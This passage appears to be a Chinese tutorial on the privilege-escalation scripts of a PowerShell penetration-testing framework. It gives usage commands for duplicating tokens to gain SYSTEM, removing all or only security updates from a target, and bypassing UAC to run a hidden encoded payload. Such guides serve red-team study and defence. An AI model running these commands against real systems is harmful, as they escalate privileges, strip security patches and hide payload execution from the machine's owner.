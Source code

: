 ### 5.权限提升
#### Enable-DuplicateToken
这个脚本可以帮助我们在已经获得了一定权限的情况下，使我们提升到System权限。
执行方式

```powershell
PS > Enable-DuplicateToken
```
具体的相关介绍可以查阅：
https://blogs.technet.microsoft.com/heyscriptingguy/2012/07/05/use-powershell-to-duplicate-process-tokens-via-pinvoke/

#### Remove-Update
这个脚本可以帮助我们移除系统所有的更新，或所有安全更新，以及指定编号的更新。
执行方式：

```powershell
PS > Remove-Update All       //移除目标机器上的所有更新
PS > Remove-Update Security  //移除目标机器上所有安全相关更新
PS > Remove-Update KB2761226 //移除指定编号的更新
```

#### Invoke-PsUACme
Invoke-PsUACme使用了来自于UACME项目的DLL来Bypass UAC。
![Bypass UAC](./img/framework/uac.jpg)
上表给出了各种UAC绕过的方法，我们可以在Invoke-PsUACme中指定相应方法执行。
执行方式：

```powershell
PS > Invoke-PsUACme -Verbose //使用Sysprep方法和默认的Payload执行
PS > Invoke-PsUACme -method oobe -Verbose //使用oobe方法和默认的Payload执行
PS > Invoke-PsUACme -method oobe -Payload "powershell -windowstyle hidden -e YourEncodedPayload" //使用-Payload参数可以自行指定要执行的Payload
```
除开以上而外，我们还可以使用-PayloadPath参数来指定Payload的路径，默认情况下Payload会在C:\Windows\Temp\cmd.bat结束。还可以使用-CustomDLL64（64位）或-CustomDLL32（32位）参数来自定义一个DLL文件。
